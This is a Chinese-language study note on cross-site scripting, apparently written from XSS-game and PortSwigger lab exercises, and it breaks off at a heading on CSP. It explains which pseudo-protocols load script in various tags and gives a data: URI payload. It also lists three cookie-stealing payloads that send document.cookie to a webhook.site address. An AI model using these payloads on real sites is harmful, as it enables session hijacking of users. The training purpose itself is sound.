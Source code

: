 ```js

    </script>
```

其中url就是我们输入的可控参数，重点是:

```
  // Load this awesome gadget
  scriptEl.src = url;
```

最终会生成类似：

```
<script src="url"></script>
```

知识点：对于伪协议加载js代码

1. **在script的标签中的src可以使用data / http+远程js文件，但是不能使用js**
2. **在iframe的src中可以使用js，不能使用data**
3. **img的src两个都不可以，必须借用js事件处理器**
4. **在任何标签的herf中可以使用js，不能使用data**

所以这里使用data伪协议更方便一点，payload:

```
data:text/javascript,alert()
```

成功弹窗

### 总结：

1. data/远程加载js文件、js伪协议的使用
2. 反射、DOM、存储XSS
3. 没有编码绕过知识

## 二、portswigger

### 1、盗取cookie | blindxss

```
';new Image().src="https://webhook.site/c334bf34-b847-4d21-93f6-02fc7008aa64?cookie="+encodeURIComponent(document.cookie);//
```

```
';window.location="https://webhook.site/c334bf34-b847-4d21-93f6-02fc7008aa64?cookie="+encodeURIComponent(document.cookie);//
```

```
';fetch("https://webhook.site/c334bf34-b847-4d21-93f6-02fc7008aa64?cookie="+encodeURIComponent(document.cookie));//
```

### 2、CSP
